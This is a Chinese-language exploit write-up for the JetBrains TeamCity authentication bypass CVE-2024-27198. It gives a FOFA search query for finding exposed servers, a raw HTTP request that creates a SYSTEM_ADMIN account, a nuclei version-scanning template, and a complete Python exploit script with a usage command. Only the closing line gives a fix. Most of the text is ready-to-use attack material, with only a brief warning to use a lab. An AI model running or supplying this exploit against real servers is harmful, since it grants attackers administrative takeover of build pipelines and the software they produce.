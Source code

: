 **漏洞名称**

TeamCity 2023.11.3 及以下版本存在身份验证绕过漏洞

**漏洞影响**

JetBrains TeamCity < 2023.11.4版本

**漏洞描述**

JetBrains TeamCity是一款由JetBrains开发的持续集成和持续交付(CI/CD)服务器。它提供了一个功能强大的平台，用于自动化构建、测试和部署软件项目。TeamCity旨在简化团队协作和软件交付流程，提高开发团队的效率和产品质量。

JetBrains TeamCity在2023.11.4版本之前存在认证绕过漏洞，允许执行管理员操作。攻击者可以利用该漏洞绕过认证机制，直接执行管理员操作，可能导致系统受到未授权访问和恶意操作的威胁。

**FOFA搜索语句**

```
body="Log in to TeamCity"
```

**漏洞复现**

POC数据包如下

```yaml

POST /pwned?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 192.168.40.130:8111
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Accept-Encoding: gzip, deflate
 
{"username": "用户名", "password": "密码", "email": "test@mydomain.com", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

执行poc会创建管理员账户，请在靶场操作。



**批量扫描poc**



如果直接使用上面的数据包，实际上已经是一种入侵行为，尝试通过判断版本号来扫描漏洞。各位看官有更好的办法记得私信我。

nuclei poc文件内容如下

```yaml

id: CVE-2024-27198

info:
  name: TeamCity 2023.11.3 及以下版本存在身份验证绕过漏洞
  author: fgz
  severity: critical
  description: JetBrains TeamCity是一款由JetBrains开发的持续集成和持续交付(CI/CD)服务器。它提供了一个功能强大的平台，用于自动化构建、测试和部署软件项目。TeamCity旨在简化团队协作和软件交付流程，提高开发团队的效率和产品质量。JetBrains TeamCity在2023.11.4版本之前存在认证绕过漏洞，允许执行管理员操作。攻击者可以利用该漏洞绕过认证机制，直接执行管理员操作，可能导致系统受到未授权访问和恶意操作的威胁。
  metadata:
    max-request: 1
    fofa-query: body="Log in to TeamCity"
    verified: true
requests:
  - method: GET
    path:
      - "{{RootURL}}/login.html"

    extractors:
      - type: regex # type of the extractor
        name: version_
        part: body
#        internal: true
        group: 1
        regex:
          - '<span class="vWord">Version</span>(.+?)</span>'
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && version_ < '2023.11.4'"
```

运行POC

```
nuclei.exe -t mypoc/cve/CVE-2024-27198.yaml -l 1.txt
```

**漏洞利用**



github上发现个现成的用python写的EXP

```python
import requests
import urllib3
import argparse
import re
urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target",required=True, help="Target TeamCity Server URL")
parser.add_argument("-u", "--username", required=True,help="Insert username for the new user")
parser.add_argument("-p", "--password",required=True, help="Insert password for the new user")
args = parser.parse_args()

vulnerable_endpoint = "/pwned?jsp=/app/rest/users;.jsp" # Attacker’s path to exploit CVE-2024-27198, please refer to the Rapid7's blogpost for more information

def check_version():
    response = requests.get(args.target+"/login.html", verify=False) 
    repattern = r'<span class="vWord">Version</span>(.+?)</span>' # Regex pattern to extract the TeamCity version number
    try:
        version = re.findall(repattern, response.text)[0]
        print("[+] Version Found:", version)
    except:
        print("[-] Version not found")

def exploit():
    response = requests.get(args.target+vulnerable_endpoint, verify=False, timeout=10)
    http_code = response.status_code
    if http_code == 200:
        print("[+] Server vulnerable, returning HTTP", http_code) # HTTP 200 Status code is needed to confirm if the TeamCity Server is vulnerable to the auth bypass vuln
        create_user = {
            "username": args.username,
            "password": args.password,
            "email": f"{args.username}@mydomain.com",
            "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}, # Given admin permissions to your new user, basically you can have complete control of this TeamCity Server
        }
        headers = {"Content-Type": "application/json"}
        create_user = requests.post(args.target+vulnerable_endpoint, json=create_user, headers=headers, verify=False) # POST request to create the new user with admin privileges
        if create_user.status_code == 200:
            print("[+] New user", args.username, "created succesfully! Go to", args.target+"/login.html to login with your new credentials :)")
        else:
            print("[-] Error while creating new user")

    else:
        print("[-] Probable not vulnerable, returning HTTP", http_code) 

check_version()
exploit()
```

复制代码到CVE-2024-27198.py文件，然后执行创建账号。-t指定目标，-u指定用户名，-p指定密码

```
python CVE-2024-27198.py -t http://localhost:8111 -u mynewadminuser -p mypassword
```

**修复建议**



升级到2023.11.4及以上版本。